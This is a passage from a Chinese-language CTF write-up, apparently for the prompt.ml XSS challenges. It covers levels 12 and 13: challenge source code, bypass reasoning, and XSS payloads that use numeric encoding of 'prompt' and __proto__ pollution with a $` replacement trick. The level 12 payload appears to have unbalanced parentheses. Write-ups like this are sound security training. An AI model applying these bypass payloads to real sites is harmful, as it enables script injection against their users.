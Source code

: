 ```
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
} 
```
这题和第10题很像，但是这里过滤了'符号，只能试一试编码和函数，我们可以利用函数转换成字符，我试了sql中的利用函数。
```
> parseInt("prompt",30)
<. 630038579
> (630038579).toString(30)
<. "prompt"
```
* payload:
`eval(630038579).toString(30))(1)`
## 第13关
```
 function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}    
```
看源码分析，json.parese()函数要接受一个json格式字符串返回json格式的对象，那如果传入的参数是json格式的，会抛出异常。参数会被解析成json格式，再由extend()函数处理，然后把默认的值替换为指定的值并返回。接下来就是正则判断source的值是不是有不属于url的符号，有的话就删除，并将source的属性删除。
然后每个对象都会在内部初始化一个proto属性，所以当我们访问对象属性的时候，如果对象内部不存在这个对象属性，就会去proto里面找。
那么我们就是构造{"source":"'","__proto__":{"source":"onerror=prompt(1)"}},但由于过滤了',会删除，替换是时候又过滤了",也无法闭合，我们这里用特殊的方法。用$`插入字符串中位匹配子字符串之前的部分。
* payload:
`{"source":"'","__proto__":{"source":"$`onerror=prompt(1)>"}}`
## 第14关
```
function escape(input) {
```